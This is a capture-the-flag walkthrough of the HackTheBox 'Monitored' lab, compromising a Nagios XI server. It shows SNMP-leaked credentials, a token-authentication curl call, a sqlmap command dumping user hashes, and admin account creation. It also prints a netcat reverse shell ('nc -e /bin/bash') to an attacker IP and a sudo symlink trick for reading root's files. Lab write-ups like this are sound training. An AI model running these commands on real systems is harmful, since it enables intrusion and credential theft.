# HackTheBox - Monitored


## Enumeration

We start by running our nmap scan which reveals a HTTPS server, LDAP and SSH ports open.

```
# Nmap 7.94SVN scan initiated Sat May 11 12:42:43 2024 as: nmap -sCV -oN nmap/output 10.10.11.248
Nmap scan report for 10.10.11.248
Host is up (0.029s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-title: Nagios XI
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.56 (Debian)
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 11 12:42:59 2024 -- 1 IP address (1 host up) scanned in 15.95 seconds

```

We add "monitored.htb" and "nagios.monitored.htb" to our /etc/hosts and navigate to the webpage.&#x20;

<figure><figcaption></figcaption></figure>

We don't find much but realise we have a service, so search for "Nagios XI Exploit" and find an authenticated SQLi vulnerability, CVE-2023–40931. Before we can use this, we need to become authenticated and stumble across an article which indicates default credentials that may be in use, although after trying various combinations, have no luck.&#x20;



We reached an end-point here and was the first learning curve for myself. By default, the nmap scan we're searching for is related to TCP scans and therefore useful services running on UDP ports won't be checked for. To progress further with this box we need to check UDP ports, and by which we find an SNMP port open, which through our default scripts and enumeration flags reveals some credentials for us.

```
nmap -oN nmap/udp_scan --top-ports 10 -sCVU 10.10.11.248
```

The outputs from this scan are quite long but we notice our important section here:

<figure><figcaption></figcaption></figure>

We try our credentials, svc:XjH7VCehowpR1xZB and are greeted with this error, which is different to what we had received when trying the default credentials mentioned earlier.

<figure><figcaption></figcaption></figure>


## User

We're guessing that the account is disabled so we want to see if there is any kind of insecure login for Nagios XI. Performing our own research and trying multiple things we stumble across an article that states this command should work, when replaced with our details

`curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=YOURPASS&valid_min=5'`

We need to change the data passed through CURL, so username to "svc" and the password to "XjH7VCehowpR1xZB". Running this command we get an auth token, so we follow up with our second command which shows us how this can be used.&#x20;

<figure><figcaption></figcaption></figure>

`curl -k -L 'https://nagios.monitored.htb/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=`c2871f996602b0b52ea9244cd151438f188f6b11`' > image.png`

We should then be able to request the index page with our token and be authenticated. Sure enough, following some slight issues we successfully load the page and can move forwards.

<figure><figcaption></figcaption></figure>

We grab our cookie from the developer tab of Firefox and begin enumerating through SQLMap. Through our enumeration we dump credentials with

`sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=5rjvbhig4h1bq3hh8rfnqroqe1" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump` &#x20;

We gain hashes amongst a variety of other information although attempting to crack these hashes is unsuccessful. So we can attempt to use the "nagiosadmin" API key.&#x20;

<figure><figcaption></figcaption></figure>

We find a chained remote root through SQLi leading to RCE and begin analysing the request, since we've already achieved SQLi through a seperate vulnerability.&#x20;



<figure><figcaption></figcaption></figure>

We look through the exploit and notice that the RCE phase is achieved through a variety of flags, so craft our own CURL command. We create our command send it, with us receiving a response indicating that our account has been created.

<figure><figcaption></figcaption></figure>

We log in and have administrative access. A while later we find a core config manager where we can add our commands, so we go ahead and do so, using a reverse shell as our command to add.&#x20;

<figure><figcaption></figcaption></figure>

We fill in our shell, using `nc -e /bin/bash 10.10.14.149 9999` and then "run" our command, giving us a shell!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


## Root

We check our privileges and realise we have a large amount of sudo privileges. Specifically noticing that we have multiple admin permissions for scripts related to Nagios XI so start by performing more enumeration on these scripts.

<figure><figcaption></figcaption></figure>

We start with "getprofile.sh" and look at what this script does. The script starts by taking an input in the form of a folder, sets up a basic folder setup and then saves the bottom of files from various locations into this zip folder. There's a large list of files that the script writes to with one of particular interest being "phpmailer.log". We check the permissions and we own this file, due to our previous knowledge we know that we can abuse symlinking capabilities to get the root flag.&#x20;

<figure><figcaption></figcaption></figure>

We start by symlinking the location of the root flag to the file we can write, and then checking our permissions to ensure it is linked, which it is. We hope that by symlinking the root flag to this file, when the script we are running, executes as the root user, it will read the root flag and store it in phpmailer.log since it has successfully read the file.

<figure><figcaption></figcaption></figure>

We then run the script, using our username as a profile.

<figure><figcaption></figcaption></figure>

The script runs and we find the output, unzipping it.

<figure><figcaption></figcaption></figure>

We're realistically looking for the contents of one file, which is phpmailer.log since this will be storing our flag, sure enough we find the file and opening it, gets us our root flag.

<figure><figcaption></figcaption></figure>


And that's our box, this was an incredibly challenging box and took quite some time to solve, but the learning opportunities were amazing.
